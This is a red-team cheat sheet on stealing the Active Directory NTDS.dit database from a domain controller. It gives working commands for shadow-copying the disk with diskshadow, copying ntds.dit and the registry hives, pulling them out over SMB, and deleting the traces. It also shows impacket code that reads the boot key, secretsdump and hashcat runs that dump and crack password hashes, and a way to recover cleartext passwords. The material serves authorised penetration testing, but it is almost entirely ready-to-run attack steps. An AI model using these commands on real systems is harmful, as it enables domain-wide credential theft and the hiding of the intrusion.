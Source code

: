 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS

- [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
- [https://github.com/dionach/NtdsAudit](https://github.com/dionach/NtdsAudit)




## Shadow Disk



### Create via Diskshadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}



### Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```



### Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Raw NTDS.dit Copy

- [https://github.com/3gstudent/ntfsDump](https://github.com/3gstudent/ntfsDump)
- [https://github.com/RedCursorSecurityConsulting/NTFSCopy](https://github.com/RedCursorSecurityConsulting/NTFSCopy)

Obtain a copy of NTDS.dit:

```
PS > Invoke-NTFSCopy C:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
```

Parse on-site in conjunction with [NtdsAudit](https://github.com/dionach/NtdsAudit/releases):

```
PS > esentutl.exe /p "C:\Windows\Temp\ntds.dit" /!10240 /8 /o
PS > reg.exe save HKLM\SYSTEM system.hive
PS > .\NtdsAudit.exe ntds.dit -s system.hive -p hashes.txt -u users.csv --dump-reversible cleartext.txt
```

Parse on-site in conjunction with [secretsdump.exe](https://github.com/Qazeer/OffensivePythonPipeline/blob/main/binaries/impacket/secretsdump_windows.exe):

```python
from binascii import hexlify
from impacket.smbconnection import SMBConnection
from impacket.examples.secretsdump import RemoteOperations
hostname = 'DC01.megacorp.local'
username = 'snovvcrash'
password = '<PASSWORD>'
nthash = '' if password else '<NTHASH>'
domain = hostname.split('.', 1)[1]
smbConn = SMBConnection(remoteName=hostname, remoteHost=hostname)
smbConn.login(user=username, password=password, domain=domain, nthash=nthash)
remOps = RemoteOperations(smbConnection=smbConn, doKerberos=False)
remOps.enableRegistry()
bootKey = remOps.getBootKey()
print(hexlify(bootKey).decode())
remOps.finish()
# .\secretsdump.exe LOCAL -ntds C:\Windows\Temp\ntds.dit -bootkey <BOOTKEY>
```




## Parse NTDS.dit

Parse with [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep -a aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntds.in
$ hashcat -m 1000 -a 0 -w 3 -O --session=ntds -o ntds.out ntds.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```



### Reversible Encryption

- [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
- [https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/](https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/)

Check if enabled globally:

- gpmc.msc > Default Domain Policy > *Computer Configuration* > *Policies* > *Windows Settings* > *Security Settings* > *Account Policies* > *Password Policy* > *Store passwords using reversible encryption* > *Enabled* ✔

Check if enabled for specific users:

```
PS > Get-ADUser -Filter {userAccountControl -band 128} -Properties userAccountControl | ft name,samAccountName,userAccountControl | tee users-revenc.txt
```

{% hint style="info" %}
When DCSyncing such users, a cleartext password will be obtained.
{% endhint %}
